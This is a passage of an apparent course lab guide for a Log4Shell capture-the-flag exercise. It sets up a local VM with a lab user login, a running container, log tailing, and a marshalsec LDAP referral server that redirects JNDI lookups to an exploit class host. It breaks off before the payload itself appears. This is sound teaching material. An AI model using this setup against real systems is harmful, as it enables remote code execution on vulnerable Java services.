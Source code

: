 Here is a visual of the Log4j exploit and how it is accomplished (you can zoom in if this is too small via ctrl + scroll):

![alt text](/images/Log4Shell.PNG)

  
---
  
  
<div style="text-align:center">
  <span id="setup" style="color: #003057; font-size:36px; font-weight: bold; text-decoration:underline">SETUP</span>
</div>
  
To get setup for the flags, follow the steps carefully below, and be sure you are running each in a separate terminal window as noted. 

You will need switch users to login to log4j user via:
 
```
  Username: log4j  Password: konami-code
```

In the home directory of log4j user, start the container with the start script: 
```bash 
  sudo ./StartContainer.sh
```

Open a new terminal window and go to “Desktop/log4shell/logs”:  
```bash 
  cd Desktop/log4shell/logs
```

Run the following command to view the logs:
```bash 
  tail -f cs6035.log
```

You should now see the tail of the log file from the application running. 

![alt text](/images/logoutput.PNG)

  *****If the logs stop populating, then just stop and restart the tail. This is happening because the data logged gets too large so the log “rolls over” to another file.*******


<span style="font-weight: bold">1. Run the LDAP Server:</span> \
Open a new terminal window and run the following command to set the current directory to “Desktop/log4shell/target”:  
```bash
  cd ~Desktop/log4shell/target
```
Next, start the LDAP server by running:
```bash 
  java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:4242/#Exploit"
```
You can get the ip address of the vm by running the block below in a terminal
```bash 
  ip addr show
``` 
This outputs the vm’s \<IP:PORT\>
```bash 
  127.0.0.1:4242
```
**It is very important that this matches the port specified in the Malicious server. If your exploit is not working because it is not connecting to the malicious server, your ports likely do not match OR the vm’s IP is not correct.**
You should see the following output:
![alt text](/images/ldapoutput.PNG) 
  